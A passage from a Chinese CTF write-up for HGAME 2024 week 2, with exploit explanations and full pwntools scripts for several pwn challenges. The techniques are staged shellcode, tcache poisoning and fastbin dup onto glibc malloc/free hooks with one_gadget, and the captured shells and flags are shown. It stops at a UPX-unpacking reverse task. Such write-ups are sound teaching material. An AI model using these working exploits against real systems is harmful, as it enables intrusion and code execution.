02333000-02334000 --xp 00000000 00:00 0
...
```

新开的空间在第一次 read 后不再可写。而且也没有 rwx 片段。需要设计带两个阶段的 shellcode。

第一个短 stager 进行以下操作：尝试向新段中读入数据（这次一定会失败，因为没有 w 权限），然后跳回 main 中 mprotect 的调用序列里设置好 prot 之后的指令，将新开的段改回 rwx，然后控制流回到 stager 开头再次尝试读取至新段（这次会成功）。

由于第一次输入存在长度限制，我们使用单字节的 pop 来缩短置 0 的指令长度。同时由于我们需要调用 libc 中的函数 mprotect，所以需要调整 RSP 的值到可写段中的某个对齐的地址，且新栈中的头几个 QWORD 需要为 0。.bss 中比较高的地址是很好的选择，如 0x404800 等。

第二个阶段是正常的 ORW。注意，读取成功后原 stager 会被覆盖，EIP 并不在新段的开头，所以第二个阶段需要在实际 shellcode 前加上足够长的 NOP sled 以保证正确执行。

```python
from pwn import *

context.binary = ELF("./ShellcodeMaster/vuln")

PROMPT_1 = b"I heard that a super shellcode master can accomplish 2 functions with 0x16 bytes shellcode\n\n"
PROMPT_2 = b"Love!\n"

# GDB_SCRIPT = """
# break *0x40135C
# break *0x401386
# break *0x4013F6
# """

payload_1 = asm(
    """
    mov esp, 0x404800
    pop rax
    pop rdi
    shl esi, 12
    syscall
    mov eax, esi
    pop rdx
    mov dl, 7
    jmp $-0x1F31C9D  # .text:0x401374
"""
).ljust(0x16, asm("nop"))
assert len(payload_1) == 0x16

payload_2 = asm("nop") * 0x20 + asm(
    """
    xor rsi, rsi
    xor rdx, rdx
    push rdx
    mov rax, 0x00000067616c662f
    push rax
    mov rdi, rsp
    xor rax, rax
    mov rax, 2
    syscall

    mov rdi, rax
    mov rdx, 0x40
    mov rsi, 0x2333800
    xor rax, rax
    syscall

    mov rdi, 1
    mov rax, 1
    syscall
"""
)

with remote("106.14.57.14", 30444) as r:
# with process("./ShellcodeMaster/vuln") as r:
#     gdb.attach(r, gdbscript=GDB_SCRIPT)
    info("Sending payload 1:")
    info(hexdump(payload_1))
    r.sendafter(PROMPT_1, payload_1)
    r.recvuntil(PROMPT_2, drop=True)
    sleep(1)
    
    info("Sending payload 2:")
    info(hexdump(payload_2))
    r.send(payload_2)
    flag = r.recvall()
    success(f"flag = {flag}")
```

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2$ python ./ShellcodeMaster/sol.py
[*] '/mnt/d/Workspace/rev/hgame_2024/week_2/ShellcodeMaster/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 106.14.57.14 on port 30444: Done
[*] Sending payload 1:
[*] 00000000  bc 00 48 40  00 58 5f c1  e6 0c 0f 05  89 f0 5a b2  │··H@│·X_·│····│··Z·│
    00000010  07 e9 5e e3  0c fe                                  │··^·│··│
    00000016
[*] Sending payload 2:
[*] 00000000  90 90 90 90  90 90 90 90  90 90 90 90  90 90 90 90  │····│····│····│····│
    *
    00000020  48 31 f6 48  31 d2 52 48  b8 2f 66 6c  61 67 00 00  │H1·H│1·RH│·/fl│ag··│
    00000030  00 50 48 89  e7 48 31 c0  48 c7 c0 02  00 00 00 0f  │·PH·│·H1·│H···│····│
    00000040  05 48 89 c7  48 c7 c2 40  00 00 00 48  c7 c6 00 38  │·H··│H··@│···H│···8│
    00000050  33 02 48 31  c0 0f 05 48  c7 c7 01 00  00 00 48 c7  │3·H1│···H│····│··H·│
    00000060  c0 01 00 00  00 0f 05                               │····│···│
    00000067
[+] Receiving all data: Done (64B)
[*] Closed connection to 106.14.57.14 port 30444
[+] flag = b'hgame{d21d426142e02e1b0e8bb7c69f17a60c3c3543bf}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2$
```

`hgame{d21d426142e02e1b0e8bb7c69f17a60c3c3543bf}`

### Elden Ring II

> write some notes

除了 NX 全关。

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/elden_ring_ii/attachment$ checksec --file ./vuln
[*] '/mnt/d/Workspace/rev/hgame_2024/week_2/elden_ring_ii/attachment/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/elden_ring_ii/attachment$
```

明显有 double free 和 UAF。

```c
void __fastcall delete_note()
{
  unsigned int index; // [rsp+Ch] [rbp-4h] BYREF

  printf("Index: ");
  __isoc99_scanf("%u", &index);
  if ( index <= 0xF )
  {
    if ( notes[index] )
      free(notes[index]);
    else
      puts("Page not found.");
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
}
```

`GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.9) stable release version 2.31.`

tcache poisoning 技巧可用。

<https://github.com/shellphish/how2heap/blob/master/glibc_2.31/tcache_poisoning.c>

构造指向 puts 的 GOT 项的 note，打印其内容，计算得到 libc 基址，然后将其覆写为 system 的实际地址。由于 puts 和 system 的签名非常类似，所以可以靠 show 一个内容为 `b"/bin/sh\x00"` 的 note 来 getshell。

```python
from pwn import *

vuln = ELF("./elden_ring_ii/attachment/vuln")
libc = ELF("./elden_ring_ii/attachment/libc.so.6")
context.binary = vuln

def add_note(r: remote, index: int, size: int):
    assert 0 <= index <= 0xF and 0 <= size <= 0xFF
    r.sendlineafter(b">", b"1")
    r.sendlineafter(b"Index: ", str(index).encode("ascii"))
    r.sendlineafter(b"Size: ", str(size).encode("ascii"))

def delete_note(r: remote, index: int):
    assert 0 <= index <= 0xF
    r.sendlineafter(b">", b"2")
    r.sendlineafter(b"Index: ", str(index).encode("ascii"))

def edit_note(r: remote, index: int, content: bytes):
    assert 0 <= index <= 0xF
    r.sendlineafter(b">", b"3")
    r.sendlineafter(b"Index: ", str(index).encode("ascii"))
    r.sendafter(b"Content: ", content)

def show_note(r: remote, index: int) -> bytes:
    assert 0 <= index <= 0xF
    r.sendlineafter(b">", b"4")
    r.sendlineafter(b"Index: ", str(index).encode("ascii"))
    return r.recvuntil(b"\n", drop=True)

with remote("106.15.72.34", 32260) as r:
    add_note(r, 0, 0x80)
    add_note(r, 1, 0x80)
    delete_note(r, 0)
    delete_note(r, 1)
    edit_note(r, 1, p64(vuln.got["puts"]))
    add_note(r, 2, 0x80)
    edit_note(r, 2, b"/bin/sh\x00")
    add_note(r, 3, 0x80)
    res = show_note(r, 3)
    info(hexdump(res))
    puts_addr = u64(res.ljust(8, b"\x00"))
    libc_base = puts_addr - libc.symbols["puts"]
    info(f"libc base: {hex(libc_base)}")

    edit_note(r, 3, p64(libc_base + libc.symbols["system"]))
    r.interactive()
```

```bash
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2$ python ./elden_ring_ii/sol.py
[*] '/mnt/d/Workspace/rev/hgame_2024/week_2/elden_ring_ii/attachment/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
[*] '/mnt/d/Workspace/rev/hgame_2024/week_2/elden_ring_ii/attachment/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 106.15.72.34 on port 32260: Done
[*] 00000000  20 e4 f4 2a  07 7f                                  │ ··*│··│
    00000006
[*] libc base: 0x7f072aeca000
[*] Switching to interactive mode
sh: 1: Here: not found
sh: 1: 1.: not found
sh: 1: 2.: not found
sh: 1: 3.: not found
sh: 1: 4.: not found
sh: 1: 5.: not found
>$ 4
Index: $ 2
$ id
/bin/sh: 1: id: not found
$ whoami
/bin/sh: 2: whoami: not found
$ cat /flag
hgame{5c1cb7e9e22053141f6967943abf2c41691ca45b}
$
[*] Closed connection to 106.15.72.34 port 32260
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2$
```

`hgame{5c1cb7e9e22053141f6967943abf2c41691ca45b}`

### fastnote

> Fast note can't be edited

GLIBC 2.31

保护全开。

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2$ checksec --file ./fastnote/attachment/vuln
[*] '/mnt/d/Workspace/rev/hgame_2024/week_2/fastnote/attachment/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2$
```

存在 UAF。

```c
void __fastcall add()
{
  unsigned int index; // [rsp+0h] [rbp-20h] MAPDST BYREF
  unsigned int size; // [rsp+4h] [rbp-1Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-18h]

  v3 = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &index);
  if ( index > 15 )
  {
    puts("There are only 16 pages.");
  }
  else
  {
    while ( 1 )
    {
      printf("Size: ");
      __isoc99_scanf("%u", &size);
      if ( size <= 0x80 )
        break;
      puts("Too big!");
    }
    notes[index] = (char *)malloc(size);
    printf("Content: ");
    read(0, notes[index], size);
  }
}

void __fastcall show()
{
  unsigned int index; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &index);
  if ( index > 15 )
  {
    puts("There are only 16 pages.");
  }
  else if ( notes[index] )
  {
    puts(notes[index]);
  }
  else
  {
    puts("No such note.");
  }
}

void __fastcall delete()
{
  unsigned int index; // [rsp+Ch] [rbp-14h] BYREF
  void *ptr; // [rsp+10h] [rbp-10h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &index);
  if ( index > 0xF )
  {
    puts("There are only 16 pages.");
  }
  else
  {
    ptr = notes[index];
    if ( ptr )
    {
      free(ptr);
      ptr = 0LL;
    }
    else
    {
      puts("No such note.");
    }
  }
}
```

先通过 UAF 泄露偏移后的 main_arena 地址，继而得到 libc 基址。然后通过 tcache dup 覆写__free_hook。

```python
import itertools as it

from pwn import *

vuln = ELF("./vuln")
libc = ELF("./libc-2.31.so")
context.binary = vuln

PROMPT_CHOICES = b"Your choice:"
PROMPT_INDEX = b"Index: "
PROMPT_SIZE = b"Size: "
PROMPT_CONTENT = b"Content: "

ADDR_MAIN_ARENA = libc.symbols["__malloc_hook"] + 0x10

def add_note(r: remote | process, index: int, size: int, content: bytes):
    assert 0 <= index <= 0xF and 0 <= size <= 0x80 and len(content) <= size
    r.sendlineafter(PROMPT_CHOICES, b"1")
    r.sendlineafter(PROMPT_INDEX, str(index).encode("ascii"))
    r.sendlineafter(PROMPT_SIZE, str(size).encode("ascii"))
    r.sendafter(PROMPT_CONTENT, content)

def show_note(r: remote | process, index: int) -> bytes:
    assert 0 <= index <= 0xF
    r.sendlineafter(PROMPT_CHOICES, b"2")
    r.sendlineafter(PROMPT_INDEX, str(index).encode("ascii"))
    return r.recvuntil(b"\n", drop=True)

def delete_note(r: remote | process, index: int):
    assert 0 <= index <= 0xF
    r.sendlineafter(PROMPT_CHOICES, b"3")
    r.sendlineafter(PROMPT_INDEX, str(index).encode("ascii"))

# with process("./vuln") as r:
with remote("106.14.57.14", 31198) as r:
    add_note(r, 0, 0x80, b"A" * 0x80)
    add_note(r, 1, 0x10, b"B" * 0x10)
    for i in range(7):
        add_note(r, i + 2, 0x80, bytes(it.repeat(ord("A") + i + 2, 0x80)))
    for i in range(7):
        delete_note(r, i + 2)
    delete_note(r, 0)
    main_arena = u64(show_note(r, 0).ljust(8, b"\x00")) - 0x60
    libc_base = main_arena - ADDR_MAIN_ARENA
    info(f"libc base: {hex(libc_base)}")

    addr_free_hook = libc_base + libc.symbols["__free_hook"]
    addr_system = libc_base + libc.symbols["system"]
    info(f"__free_hook: {hex(addr_free_hook)}")

    for i in range(7):
        add_note(r, i + 2, 0x50, bytes(it.repeat(ord("a") + i + 2, 0x50)))
    add_note(r, 10, 0x50, cyclic(0x50))
    for i in range(7):
        delete_note(r, i + 2)
    delete_note(r, 10)
    for i in range(7):
        add_note(r, i + 2, 0x50, b"/bin/sh".ljust(0x50, b"\x00"))
    delete_note(r, 10)
    add_note(r, 11, 0x50, p64(addr_free_hook - 0x10))
    add_note(r, 12, 0x50, cyclic(8))
    add_note(r, 13, 0x50, p64(addr_system))
    delete_note(r, 2)

    r.interactive()
```

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/fastnote/attachment$ python ../sol.py
[*] '/mnt/d/Workspace/rev/hgame_2024/week_2/fastnote/attachment/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/mnt/d/Workspace/rev/hgame_2024/week_2/fastnote/attachment/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 106.14.57.14 on port 31198: Done
[*] libc base: 0x7f8fc913a000
[*] __free_hook: 0x7f8fc9328e48
[*] Switching to interactive mode
$ id
/bin/sh: 1: id: not found
$ whoami
/bin/sh: 2: whoami: not found
$ cat /flag
hgame{a9522760998780d08e66a4c40d85e513051f78b4}
$ exit
1.Add note
2.Show note
3.Delete note
4.Exit
Your choice:$ 4
[*] Got EOF while reading in interactive
$
[*] Closed connection to 106.14.57.14 port 31198
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/fastnote/attachment$
```

`hgame{a9522760998780d08e66a4c40d85e513051f78b4}`

### old_fastnote

> Let's go back to the old days

GLIBC 2.23

除了 PIE 保护全开。

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2$ checksec --file ./old_fastnote/attachment/vuln
[*] '/mnt/d/Workspace/rev/hgame_2024/week_2/old_fastnote/attachment/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2$
```

代码与 fastnote 基本一致，存在 UAF。

先 leak libc 基址。计算 fd/bk 与 main_arena 的偏移。

```plain-text
pwndbg> heap
Free chunk (unsortedbin) | PREV_INUSE
Addr: 0xf2d000
Size: 0x90 (with flag bits: 0x91)
fd: 0x7f5cd0275b78
bk: 0x7f5cd0275b78

Allocated chunk
Addr: 0xf2d090
Size: 0x20 (with flag bits: 0x20)

Top chunk | PREV_INUSE
Addr: 0xf2d0b0
Size: 0x20f50 (with flag bits: 0x20f51)

pwndbg> arenas
  arena type    arena address    heap address    map start    map end    perm    size    offset    file
------------  ---------------  --------------  -----------  ---------  ------  ------  --------  ------
  main_arena   0x7f5cd0275b20        0xf2d000     0xf2d000   0xf4e000    rw-p   21000         0  [heap]
pwndbg>
```

不难发现 main_arena = fd - 0x58。

（在另一次运行中）尝试找到合理的将__malloc_hook 分配至某个 chunk 附近的 size。

```plain-text
pwndbg> x/64bx 0x7fc42ddc1788
0x7fc42ddc1788: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fc42ddc1790: 0x01    0x00    0x00    0x00    0x02    0x00    0x00    0x00
0x7fc42ddc1798: 0x00    0x87    0xfe    0x2d    0xc4   [0x7f    0x00    0x00
0x7fc42ddc17a0 <__after_morecore_hook>: 0x00    0x00    0x00    0x00    0x00]   0x00    0x00    0x00
0x7fc42ddc17a8 <__free_hook>:   0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fc42ddc17b0 <__malloc_initialize_hook>:      0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fc42ddc17b8: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7fc42ddc17c0: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
pwndbg>
...
0x7f2c3480bae0: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f2c3480bae8: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f2c3480baf0: 0x60    0xa2    0x80    0x34    0x2c   [0x7f    0x00    0x00
0x7f2c3480baf8: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00]
0x7f2c3480bb00 <__memalign_hook>:       0xa0    0xce    0x4c    0x34    0x2c    0x7f    0x00    0x00
0x7f2c3480bb08 <__realloc_hook>:        0x70    0xca    0x4c    0x34    0x2c    0x7f    0x00    0x00
0x7f2c3480bb10 <__malloc_hook>: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x7f2c3480bb18: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
pwndbg>
```

其中 free_hook 前的内存内容会被 scanf 清零。

Gadget 信息如下：

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/old_fastnote/attachment$ one_gadget ./libc-2.23.so
0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/old_fastnote/attachment$
```

所有 gadget 不能直接使用，考虑利用 realloc 的序言调整栈帧。



```plain-text
pwndbg> stack 32 -16
00:0000│     0x7ffff7e9ac38 —▸ 0x7ffff7e9acf4 ◂— 0x6df8b50000000001
01:0008│     0x7ffff7e9ac40 —▸ 0x7fca63371780 ◂— 0x0
02:0010│     0x7ffff7e9ac48 —▸ 0x7fca630a23c0 (write+16) ◂— cmp rax, -0xfff
03:0018│ [L] 0x7ffff7e9ac50 —▸ 0x7fca63598700 ◂— 0x7fca63598700
04:0020│     0x7ffff7e9ac58 ◂— 0xc /* '\x0c' */
05:0028│     0x7ffff7e9ac60 ◂— 0x6
06:0030│     0x7ffff7e9ac68 —▸ 0x7fca63370620 (_IO_2_1_stdout_) ◂— 0xfbad2887
07:0038│     0x7ffff7e9ac70 ◂— 0xa /* '\n' */
08:0040│     0x7ffff7e9ac78 —▸ 0x400cd5 ◂— xor al, 0x2e /* '4.Exit' */
09:0048│ [H] 0x7ffff7e9ac80 —▸ 0x7ffff7e9ade0 ◂— 0x1
0a:0050│     0x7ffff7e9ac88 —▸ 0x7fca6302582b (_IO_file_overflow+235) ◂— cmp eax, -1
0b:0058│     0x7ffff7e9ac90 ◂— 0x6
0c:0060│     0x7ffff7e9ac98 —▸ 0x7fca63370620 (_IO_2_1_stdout_) ◂— 0xfbad2887
0d:0068│     0x7ffff7e9aca0 —▸ 0x400cd5 ◂— xor al, 0x2e /* '4.Exit' */
0e:0070│     0x7ffff7e9aca8 ◂— 9 /* '\t' */
0f:0078│     0x7ffff7e9acb0 —▸ 0x7ffff7e9ace0 —▸ 0x7ffff7e9ad00 —▸ 0x400be0 (__libc_csu_init) ◂— push r15
10:0080│ rsp 0x7ffff7e9acb8 —▸ 0x40092e (add+136) ◂— mov rdx, rax
11:0088│     0x7ffff7e9acc0 ◂— 0x1000000009 /* '\t' */
12:0090│     0x7ffff7e9acc8 ◂— 0x964431376df8b500
13:0098│     0x7ffff7e9acd0 ◂— 0x0
14:00a0│     0x7ffff7e9acd8 ◂— 0x0
15:00a8│ rbp 0x7ffff7e9ace0 —▸ 0x7ffff7e9ad00 —▸ 0x400be0 (__libc_csu_init) ◂— push r15
16:00b0│     0x7ffff7e9ace8 —▸ 0x400ba8 (main+107) ◂— jmp 0x400bd8
17:00b8│     0x7ffff7e9acf0 ◂— 0x1f7e9ade0
18:00c0│     0x7ffff7e9acf8 ◂— 0x964431376df8b500
19:00c8│     0x7ffff7e9ad00 —▸ 0x400be0 (__libc_csu_init) ◂— push r15
1a:00d0│     0x7ffff7e9ad08 —▸ 0x7fca62fcb840 (__libc_start_main+240) ◂— mov edi, eax
1b:00d8│     0x7ffff7e9ad10 ◂— 0x1
1c:00e0│     0x7ffff7e9ad18 —▸ 0x7ffff7e9ade8 —▸ 0x7ffff7e9bbf1 ◂— 0x53006e6c75762f2e /* './vuln' */
1d:00e8│     0x7ffff7e9ad20 ◂— 0x16359aca0
1e:00f0│     0x7ffff7e9ad28 —▸ 0x400b3d (main) ◂— push rbp
1f:00f8│     0x7ffff7e9ad30 ◂— 0x0
pwndbg>
```

尝试使用 gadget 3，将合适的 RSP 偏移调整到[0x7ffff7e9acd0]的 0 处。

完整流程而言，我们需要先使用 unsorted bin 泄漏 main_arena 并计算得到 libc 基址，然后构造假块使用 fastbin dup 控制__malloc_hook 和__realloc_hook，然后触发 malloc，在__malloc_hook 中跳转至 realloc 并调整栈，在__realloc_hook 中使用 one gadget 进行 getshell。

```python
import itertools as it

from pwn import *

vuln = ELF("./vuln")
libc = ELF("./libc-2.23.so")
context.binary = vuln

PROMPT_CHOICES = b"Your choice:"
PROMPT_INDEX = b"Index: "
PROMPT_SIZE = b"Size: "
PROMPT_CONTENT = b"Content: "

ADDR_MAIN_ARENA = libc.symbols["__malloc_hook"] + 0x10
ADDR_CALLOC_ADJ = 0x84716

ADDRS_EXECVE_GADGET = (0x4527A, 0xF03A4, 0xF1247)

def add_note(r: remote | process, index: int, size: int, content: bytes):
    assert 0 <= index <= 0xF and 0 <= size <= 0x80 and len(content) <= size
    r.sendlineafter(PROMPT_CHOICES, b"1")
    r.sendlineafter(PROMPT_INDEX, str(index).encode("ascii"))
    r.sendlineafter(PROMPT_SIZE, str(size).encode("ascii"))
    r.sendafter(PROMPT_CONTENT, content)

def show_note(r: remote | process, index: int) -> bytes:
    assert 0 <= index <= 0xF
    r.sendlineafter(PROMPT_CHOICES, b"2")
    r.sendlineafter(PROMPT_INDEX, str(index).encode("ascii"))
    return r.recvuntil(b"\n", drop=True)

def delete_note(r: remote | process, index: int):
    assert 0 <= index <= 0xF
    r.sendlineafter(PROMPT_CHOICES, b"3")
    r.sendlineafter(PROMPT_INDEX, str(index).encode("ascii"))

# with process("./vuln") as r:
with remote("106.14.57.14", 31357) as r:
    add_note(r, 0, 0x80, b"A" * 0x80)
    add_note(r, 1, 0x10, b"/bin/sh".ljust(0x10, b"\x00"))
    for i in range(7):
        add_note(r, i + 2, 0x80, bytes(it.repeat(ord("A") + i + 2, 0x80)))
    for i in range(7):
        delete_note(r, i + 2)
    delete_note(r, 0)
    main_arena = u64(show_note(r, 0).ljust(8, b"\x00")) - 0x58
    libc_base = main_arena - ADDR_MAIN_ARENA
    info(f"libc base: {hex(libc_base)}")

    addr_malloc_hook = libc_base + libc.symbols["__malloc_hook"]
    info(f"__malloc_hook: {hex(addr_malloc_hook)}")
    addrs_execve_gadget = list(map(lambda x: libc_base + x, ADDRS_EXECVE_GADGET))
    info(f"gadgets: {' '.join(map(lambda x: hex(x), addrs_execve_gadget))}")
    addr_calloc_adj = libc_base + ADDR_CALLOC_ADJ
    info(f"adjusted calloc preamble: {hex(addr_calloc_adj)}")

    add_note(r, 2, 0x60, b"a" * 0x60)
    add_note(r, 3, 0x60, b"b" * 0x60)
    add_note(r, 4, 0x60, b"c" * 0x60)

    delete_note(r, 2)
    delete_note(r, 3)
    delete_note(r, 2)

    addr_fake_chunk = addr_malloc_hook - 27 - 8
    add_note(r, 5, 0x60, p64(addr_fake_chunk))
    add_note(r, 6, 0x60, b"d" * 0x60)
    add_note(r, 7, 0x60, b"e" * 0x60)
    add_note(
        r,
        8,
        0x60,
        cyclic(3) + p64(0) + p64(addrs_execve_gadget[2]) + p64(addr_calloc_adj),
    )

    info(f"Triggering malloc")
    r.sendlineafter(PROMPT_CHOICES, b"1")
    r.sendlineafter(PROMPT_INDEX, str(10).encode("ascii"))
    r.sendlineafter(PROMPT_SIZE, str(0x20).encode("ascii"))

    r.interactive()
```

```plain-text
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/old_fastnote/attachment$ python ../sol.py
[*] '/mnt/d/Workspace/rev/hgame_2024/week_2/old_fastnote/attachment/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
[*] '/mnt/d/Workspace/rev/hgame_2024/week_2/old_fastnote/attachment/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 106.14.57.14 on port 31357: Done
[*] libc base: 0x7fd5878c1000
[*] __malloc_hook: 0x7fd587c85b10
[*] gadgets: 0x7fd58790627a 0x7fd5879b13a4 0x7fd5879b2247
[*] adjusted calloc preamble: 0x7fd587945716
[*] Triggering malloc
[*] Switching to interactive mode
$ id
: 1: id: not found
$ cat /flag
hgame{eb14f0d1ea1bd6088188956c6579b677d36f70bd}
$ exit
[*] Got EOF while reading in interactive
$
[*] Closed connection to 106.14.57.14 port 31357
mantlebao@LAPTOP-RONG-BAO:/mnt/d/Workspace/rev/hgame_2024/week_2/old_fastnote/attachment$
```

`hgame{eb14f0d1ea1bd6088188956c6579b677d36f70bd}`

## Reverse

### arithmetic

> 这是什么奇怪的算法怎么没见过

改三处特征的 UPX。



两个 section 的名字和 PE 段末的 UPX!修复完成（即将三个 `ari` 替换为 `UPX`）后就可以直接脱壳了。

